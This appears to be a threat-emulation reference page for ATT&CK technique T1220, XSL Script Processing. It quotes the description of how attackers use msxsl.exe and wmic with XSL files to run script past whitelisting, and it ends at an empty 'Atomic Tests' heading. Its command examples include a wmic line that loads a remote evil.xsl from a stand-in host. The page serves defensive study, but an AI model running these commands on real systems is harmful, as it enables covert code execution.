 # T1220 - XSL Script Processing

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1220)

<blockquote>Extensible Stylesheet Language (XSL) files are commonly used to describe the processing and rendering of data within XML files. To support complex operations, the XSL standard includes support for embedded scripting in various languages. (Citation: Microsoft XSLT Script Mar 2017)

Adversaries may abuse this functionality to execute arbitrary files while potentially bypassing application whitelisting
defenses. Similar to [Trusted Developer Utilities](https://attack.mitre.org/techniques/T1127), the Microsoft common line
transformation utility binary (msxsl.exe) (Citation: Microsoft msxsl.exe) can be installed and used to execute malicious
JavaScript embedded within local or remote (URL referenced) XSL files. (Citation: Penetration Testing Lab MSXSL July
2017) Since msxsl.exe is not installed by default, an adversary will likely need to package it with dropped files. (
Citation: Reaqta MSXSL Spearphishing MAR 2018) Msxsl.exe takes two main arguments, an XML source file and an XSL
stylesheet. Since the XSL file is valid XML, the adversary may call the same XSL file twice. When using msxsl.exe
adversaries may also give the XML/XSL files an arbitrary file extension.(Citation: XSL Bypass Mar 2019)

Command-line examples:(Citation: Penetration Testing Lab MSXSL July 2017)(Citation: XSL Bypass Mar 2019)

* <code>msxsl.exe customers[.]xml script[.]xsl</code>
* <code>msxsl.exe script[.]xsl script[.]xsl</code>
* <code>msxsl.exe script[.]jpeg script[.]jpeg</code>

Another variation of this technique, dubbed “Squiblytwo”, involves
using [Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047) to invoke JScript or VBScript
within an XSL file.(Citation: LOLBAS Wmic) This technique can also execute local/remote scripts and, similar to
its [Regsvr32](https://attack.mitre.org/techniques/T1117)/ "Squiblydoo" counterpart, leverages a trusted, built-in
Windows tool. Adversaries may abuse any alias
in [Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047) provided they utilize the /FORMAT
switch.(Citation: XSL Bypass Mar 2019)

Command-line examples:(Citation: XSL Bypass Mar 2019)(Citation: LOLBAS Wmic)

* Local File: <code>wmic process list /FORMAT:evil[.]xsl</code>
* Remote File: <code>wmic os get /FORMAT:”https[:]//example[.]com/evil[.]xsl”</code></blockquote>

## Atomic Tests
